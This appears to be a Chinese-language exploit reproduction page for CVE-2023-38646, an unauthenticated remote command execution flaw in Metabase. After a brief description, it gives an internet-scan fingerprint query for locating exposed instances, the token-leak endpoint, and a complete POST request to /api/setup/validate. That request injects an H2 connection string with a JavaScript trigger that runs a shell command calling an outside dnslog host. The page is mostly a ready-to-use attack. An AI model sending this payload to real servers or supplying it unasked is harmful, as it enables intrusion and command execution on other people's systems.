



# Metabase validate 远程命令执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松地连接到各种数据源，包括数据库、云服务和API，然后使用直观的界面进行数据查询、分析和可视化。未经身份认证的远程攻击者利用该漏洞可以在服务器上以运行 Metabase 服务器的权限执行任意命令

## 漏洞影响

Metabase

## 网络测绘

```
app="Metabase"
```

## 漏洞复现

登录页面



验证POC

```
/api/session/properties
```



```
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

